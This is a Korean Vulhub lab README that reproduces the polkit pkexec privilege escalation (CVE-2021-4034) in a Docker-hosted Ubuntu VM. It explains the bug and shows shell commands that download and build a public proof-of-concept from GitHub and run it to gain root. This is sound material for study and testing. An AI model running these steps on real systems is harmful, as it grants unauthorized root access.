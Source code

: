 # Polkit `pkexec` 로컬 권한 상승 취약점 (CVE-2021-4034)


Polkit(이전 명칭: PolicyKit)은 유닉스 계열 운영체제에서 시스템 전체 권한을 제어하기 위한 컴포넌트입니다. `pkexec` 애플리케이션은 Polkit에서 제공하는 setuid 도구로, 사전에 정의된 정책에 따라 비특권 사용자가 명령어를 특권 사용자 권한으로 실행할 수 있도록 설계되었습니다.

현재 버전의 `pkexec`는 호출 시 전달된 인자 수를 올바르게 처리하지 못하여, 환경 변수를 명령어로 실행하려고 시도합니다. 공격자는 환경 변수를 조작하여 `pkexec`가 임의 코드를 실행하도록 유도할 수 있습니다. 공격이 성공하면 비특권 사용자가 대상 시스템에서 관리자 권한을 얻을 수 있습니다.

참고자료:

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034

## 취약점 환경 구축

> 참고: 리눅스 커널은 [`argc==0` 버그](https://lwn.net/Articles/882799/)를 [이 커밋](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43)에서 수정했습니다. 따라서 Vulhub에서는 QEMU 가상 머신 에뮬레이터를 사용하여 취약한 Ubuntu 20.04(Polkit 0.105 버전 포함)를 실행합니다. 환경 구동을 위해 시스템에 최소 2GB 메모리가 필요합니다.

다음 명령어로 Polkit 0.105가 설치된 Ubuntu 20.04를 실행할 수 있습니다:

```bash
docker compose up -d
```

Docker 컨테이너 내부에서 가상 서버가 실행되기 때문에, `docker compose logs -f` 명령어로 아래와 같은 성공 로그가 출력될 때까지 다소 시간이 걸릴 수 있습니다:

```
cmd_1  | [  651.040963] cloud-init[1627]: Cloud-init v. 20.1-10-g71af48df-0ubuntu5 running 'modules:final' at Wed, 11 Jan 2023 14:57:10 +0000. Up 209.05 seconds.
cmd_1  | [  651.046024] cloud-init[1627]: ci-info: no authorized SSH keys fingerprints found for user ubuntu.
cmd_1  | [  651.049934] cloud-init[1627]: Cloud-init v. 20.1-10-g71af48df-0ubuntu5 finished at Wed, 11 Jan 2023 15:04:32 +0000. Datasource DataSourceNoCloud [seed=/dev/sdb][dsmode=net].  Up 650.90 seconds
cmd_1  | [  OK  ] Finished Execute cloud user/final scripts.
cmd_1  | [  OK  ] Reached target Cloud-init target.
```

![](https://github.com/vulhub/vulhub/raw/master/polkit/CVE-2021-4034/1.png)

## 익스플로잇 수행 방법

먼저, 대상 SSH 서버에 `ubuntu/vulhub` 계정으로 로그인합니다:

```bash
ssh ubuntu@192.168.1.163 -p2222
```

그리고 [이 저장소](https://github.com/berdav/CVE-2021-4034)를 이용하여 CVE-2021-4034를 재현합니다:

```bash
ubuntu@ubuntu:~$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
ubuntu@ubuntu:~$ cd /tmp/
ubuntu@ubuntu:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
ubuntu@ubuntu:/tmp$ tar -zxvf main.tar.gz
ubuntu@ubuntu:/tmp$ cd CVE-2021-4034-main/
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ make
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd),1000(ubuntu)
```

![](https://github.com/vulhub/vulhub/raw/master/polkit/CVE-2021-4034/2.png)

익스플로잇 수행 후 루트 사용자 권한을 획득했음을 확인할 수 있습니다.

